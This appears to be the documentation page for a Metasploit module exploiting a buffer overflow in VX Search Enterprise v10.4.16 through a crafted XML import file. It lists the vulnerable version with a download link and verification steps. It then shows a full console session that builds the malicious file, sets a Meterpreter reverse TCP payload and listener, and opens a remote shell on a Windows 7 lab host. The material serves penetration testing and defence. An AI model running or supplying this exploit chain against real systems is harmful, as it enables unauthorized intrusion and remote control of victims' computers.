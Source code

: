 This module exploits a buffer overflow in VX Search Enterprise v10.4.16 by using the import command option to import a specially crafted xml file.

## Vulnerable Application

This module has been tested successfully on Windows 7 SP1. The vulnerable application is available for download at [www.vxsearch.com](http://www.vxsearch.com/setups/vxsearchent_setup_v10.4.16.exe).

## Verification Steps

1. Start msfconsole
2. Do: `exploit/windows/fileformat/vxsearch_xml`
3. Do: `set PAYLOAD [PAYLOAD]`
4. Do: `run`

## Example
```
msf > use exploit/windows/fileformat/vxsearch_xml 
msf exploit(windows/fileformat/vxsearch_xml) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(windows/fileformat/vxsearch_xml) > set LHOST 172.16.40.146 
LHOST => 172.16.40.146
msf exploit(windows/fileformat/vxsearch_xml) > run

[*] Creating 'msf.xml' file ...
[+] msf.xml stored at /root/.msf4/local/msf.xml
msf exploit(windows/fileformat/vxsearch_xml) > use exploit/multi/handler 
msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 172.16.40.146 
LHOST => 172.16.40.146
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.40.146:4444 
[*] Sending stage (179779 bytes) to 172.16.40.144
[*] Meterpreter session 1 opened (172.16.40.146:4444 -> 172.16.40.144:49790) at 2018-01-25 20:56:56 +0000

meterpreter > sysinfo 
Computer        : PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : pt_PT
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
```
